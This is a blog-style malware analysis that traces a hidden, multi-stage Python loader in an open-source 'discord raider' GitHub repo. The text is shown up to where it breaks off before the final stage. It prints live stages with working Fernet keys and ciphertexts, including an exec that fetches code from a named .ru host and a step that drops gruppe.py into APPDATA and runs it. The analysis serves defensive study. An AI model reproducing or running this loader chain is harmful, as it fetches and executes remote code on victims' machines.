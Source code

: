 {"title":"Malware hidden within an open source 'discord raider'", "source":"NONE", "date":"8-23-2024", "tags":["cybersecurity","malware"], "description":"Finding the malware hidden in an open source 'discord raider'"}


![This the github repo which contains the malware](/static/11/main.png)

This is the github repo which contains the malware

Hello, I have found something interesting, malware hidden within open source 'discord raider' tools. 

First a quick explanation, a 'discord raider' is a piece of software that spams a server with fake accounts which send messages repeatedly in an attempt to annoy people. These 'tools' are mostly used by 12 year skids, who feel like a master hacker by downloading garbage on to the family computer.

## Part one - github

The github repo for the malware was created about a day ago from writing this, intrestingly enough, the majority of the commits are replacing the single letter in a text file.
The more interesting thing is the account that owns the github repo, one `Michzael-Fuchslocher`, alongside the discord raid repo, they have several other repos, all discord related skid tools. In all of these repos the pattern of the commits being single letter edits continues. I looked at the code for some of these other repos, and they all seem to contain the same malware.

## Part two - the code itself

The main file contains a single line of semi-colon seperated python code, here is what it looks like when the formatting has been fixed.

    #!python
    import os
    os.system('pip install cryptography')
    os.system('pip install fernet')
    os.system('pip install requests')
    from fernet import Fernet
    import requests
    exec(Fernet(b'eORIbqIAo0lgLsUQKh65VDMfpLQ8xTJeOBYNqzILkqc=').decrypt(b'gAAAAABmxNtp4JGXQHPnCdjhaMgtj9NuIVwKOlXS6F_2WmIe3LPVT99J4L_LQTFe7l5E3fxvsHpbwHDOKxE-rr2HZHybMVtOhaDRzcTTmInOhYst6YzoeX8AwdM-3PYCdWDk4S1_EvIe1SjmZcc0N6r86fiT2_keIjsRXlugsw6ji1QUq8K4YV2KNTv0LdE9lQr_t_dKTpszBnN8mg0XElqMPd7UfhlXUQ=='))

You can see that this first payload is attempting to install the librarys `cryptography`, `fernet`, and `requests`. It then imports `Fernet` and `requests` and uses `Fernet` to unencrypt a string, which seems to be the next piece of malware.
This string is then executed by using the builtin `exec()` function.

Replacing the exec with a print gives you this:

    #!python
    exec(requests.get('https://1312services.ru/paste?userid=15').text.replace('<pre>','').replace('</pre>',''))

This payload is quite a lot simpler than the first one, and it can be seen that it gets another payload from `https://1312services.ru/paste?userid=15`, which it then replaces the pre formatted tags.
Then this new payload is also executed.
Again replacing the exec with a print gives you this payload:


    import sys
    import os
    content = """
        import subprocess
        import sys
        subprocess.run(["cmd.exe", "/c", sys.executable, "-m", "pip", "install", "fernet"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        from fernet import Fernet
        exec(Fernet(b'M_ne2Y0BqY6Ba6AupGD9SvRH0bMGU2LsYexHftKoI54=').decrypt(b'gAAAAABmyMTtneMFv9I8mobxRSmO0v9hVnMrW5TBOPHfJDFVt0mKMSps003PQ-...').decode())
    """
    gruppe_path = os.path.join(os.getenv('APPDATA'), 'gruppe.py')

    with open(gruppe_path, 'w') as file:
        file.write(content)

    os.system(sys.executable + " " + gruppe_path)

This payload writes another payload into a file called `gruppe.py` on the `appdata` directory on windows.
After running this payload it writes the `content` variable into that `gruppe` file, which again installs and imports fernet, which is used to decrypt a new payload which is then executed. Also the way that the install script is written, it can be seen that this is windows exculsive malware, due to it using `cmd.exe`.
This new payload is this:

